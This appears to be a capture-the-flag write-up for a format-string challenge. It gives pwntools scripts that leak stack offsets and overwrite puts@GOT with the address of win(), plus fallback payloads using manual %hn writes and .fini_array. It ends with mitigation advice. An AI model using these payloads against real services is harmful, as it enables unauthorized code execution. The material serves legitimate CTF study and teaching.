

# **CarelessTypist Format String Exploit**

## **Challenge Overview**
**Binary:** `CarelessTypist`  
**Protections:**  
- **Partial RELRO** (GOT is writable)  
- **No PIE** (base address fixed)  
- **No Stack Canary**  
- **NX Enabled** (no shellcode execution)  

**Vulnerability:** Format string vulnerability in `printf(user_input)`  
**Target:** Remote server at `chall.c00k3d.xyz:10002`  
**Goal:** Overwrite `puts@GOT` to redirect execution to `win()`  

---

## **Step 1: Analyzing the Binary**
### **1.1 Check Protections**
```bash
checksec ./CarelessTypist
```
**Output:**
```
[*] '/CarelessTypist'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
- **Partial RELRO** → We can overwrite the GOT.
- **No PIE** → Addresses are constant.
- **NX Enabled** → We can't execute shellcode on the stack.

### **1.2 Find the `win()` Function**
```bash
objdump -d ./CarelessTypist | grep -A20 "<win>:"
```
- `win()` is at `0x4011f3` (address fixed due to **No PIE**).

### **1.3 Find `puts@GOT`**
```bash
objdump -R ./CarelessTypist | grep puts
```
- `puts@GOT` is at `0x404018`.

---

## **Step 2: Exploit Development**
### **2.1 Find the Format String Offset**
We send `AAAA.%p.%p.%p...` to find where our input appears on the stack.

**Exploit Script:**
```python
from pwn import *

p = remote("chall.c00k3d.xyz", 10002)
p.sendlineafter(b"Enter string: ", b"AAAA.%1$p.%2$p.%3$p.%4$p.%5$p.%6$p.%7$p.%8$p")
response = p.recvline()
print(response)
p.close()
```
**Output:**
```
AAAA.0x7f... (leaked addresses) ...0x41414141... (rest)
```
- `0x41414141` (`AAAA`) appears at the **6th position** → **Offset = 6**.

### **2.2 Overwrite `puts@GOT` with `win()`**
We use `fmtstr_payload` to automate the GOT overwrite.

**Final Exploit:**
```python
from pwn import *

elf = context.binary = ELF("./CarelessTypist")
p = remote("chall.c00k3d.xyz", 10002)

win_addr = elf.symbols['win']
puts_got = elf.got['puts']
offset = 6  # Confirmed from leak

payload = fmtstr_payload(offset, {puts_got: win_addr}, write_size='short')

p.sendlineafter(b"Enter string: ", payload)
p.interactive()
```

**Why This Works:**
1. The format string vulnerability allows arbitrary memory writes.
2. We overwrite `puts@GOT` with `win()`.
3. When `puts("goodbye")` executes, it calls `win()` instead.

---

## **Step 3: Debugging (If Exploit Fails)**
### **3.1 Verify GOT Overwrite in GDB**
```bash
gdb -p $(pidof CarelessTypist)
x/gx 0x404018  # puts@GOT
```
- Should show `win()` address (`0x4011f3`).

### **3.2 Check for Bad Characters**
If `%n` is filtered, try manual writes:
```python
payload = p64(puts_got) + f"%{(win_addr & 0xFFFF) - 8}c%{offset}$hn".encode()
```

### **3.3 Alternative: Overwrite `.fini_array`**
If `puts@GOT` doesn’t work, target `.fini_array` (executed at program exit):
```python
fini_array = 0x403e00  # Adjust based on binary
payload = fmtstr_payload(offset, {fini_array: win_addr})
```

---

## **Final Solution**
### **Successful Payload**
```python
from pwn import *

elf = context.binary = ELF("./CarelessTypist")
p = remote("chall.c00k3d.xyz", 10002)

win_addr = elf.symbols['win']
puts_got = elf.got['puts']
offset = 6

payload = fmtstr_payload(offset, {puts_got: win_addr}, write_size='short')

p.sendlineafter(b"Enter string: ", payload)
p.interactive()  # Get the flag!
```

### **Expected Output**



---

## **Conclusion**
- **Vulnerability:** Uncontrolled `printf(user_input)` → Format string exploit.
- **Exploit Strategy:** Overwrite `puts@GOT` to redirect execution to `win()`.
- **Key Takeaway:** Always check GOT/PIE/RELRO when dealing with format strings.

**Mitigation:**  
- Use `printf("%s", user_input)` instead of `printf(user_input)`.  
- Enable **Full RELRO** to make GOT read-only.  
